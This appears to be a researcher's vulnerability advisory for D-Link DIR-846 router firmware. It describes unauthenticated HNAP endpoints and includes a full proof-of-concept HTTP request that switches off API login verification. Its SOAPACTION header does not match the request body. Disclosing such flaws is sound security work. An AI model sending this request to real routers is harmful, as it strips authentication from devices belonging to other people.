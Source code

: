 # D-Link DIR-846(w) Unauthenticated users can turn off API interface login verification#

**vender** ：D-Link

**Firmware version**:100.26

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-846

## Vul detail ##
1. We Audit the source code of the file /squashfs-root/www/HNAP1/control/GetMultipleHNAPs.php,find some interfaces auch as "Login","Logout","SetWizardConfig","GetJumpConfig","SetWizardValue" hava No login verification required.
![](dlink4.png)
1. After completing the router initialization configuration，the value "wizard" in the file  /etc/config/my_system is 0. We can set the value "wizard" to 1 by a unauthorization request.Then the API interface login verification is tun off.
1. POC:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 36
Cookie: 
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetWizardValue":{"Wizard_XD":"1"}}
```
1. The vulnerable code is in file /squashfs-root/www/HNAP1/control/SetWizardValue.php：
![](dlink5.png)
